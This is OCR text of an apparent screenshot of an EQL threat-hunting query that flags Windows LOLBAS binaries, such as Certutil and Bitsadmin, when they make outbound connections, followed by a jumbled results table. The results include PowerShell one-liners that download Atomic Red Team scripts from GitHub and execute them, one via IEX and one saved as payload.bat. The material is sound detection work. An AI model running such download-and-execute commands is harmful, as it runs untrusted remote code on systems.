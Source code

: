 [process where subtype.create and process_name in (

"Atbroker.exe", "Bash.exe",

"Bitsadmin.exe", "Certutil.exe",

"Cmdkey.exe", "Cmstp.exe",

"Control.exe", "Csc.exe",

"Cscript.exe", "Dfsvc.exe",

"Diskshadow.exe", "Dnscmd.exe",

"Esentutl.exe", "Extexport.exe", "Extrac32.exe", "Expand.exe",

// 61 binaries from https://github.com/api0cradle/LOLBAS/blob/master/LOLBins.md

)]

[network where subtype.outgoing]

| unique events[0].command_line

8 results found

lolbas revello

event_type parent_process_name

process_name command_line

destination

process network process network
process

amazonAssistantService.exe mshta.exe

explorer.exe

mshta.exe powershell.exe powershell.exe

cmd.exe

powershell.exe

"mshta.exe" "C:\Program Files (x86)\Amazon\Amazon Assistant\aa.hta"
images-na.ssl-images-amazon.com "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe"
go.microsoft.com powershell.exe IEX ( IWR -uri 'https://raw.githubusercontent.com/redcanaryco/ atomic-red-team/master/ARTifacts/Chain_Reactions/ chain_reaction_DragonsTail.ps1')

network process cmd.exe

powershell.exe powershell.exe

raw.githubusercontent.com
powershell.exe IWR -uri "https://raw.githubusercontent.com/ redcanaryco/atomic-red-team/master/ARTifacts/ Chain_Reactions/chain_reaction_DragonsTail.bat" -OutFile "~\Documents\payload.bat" ; ~\Documents\payload.bat

network
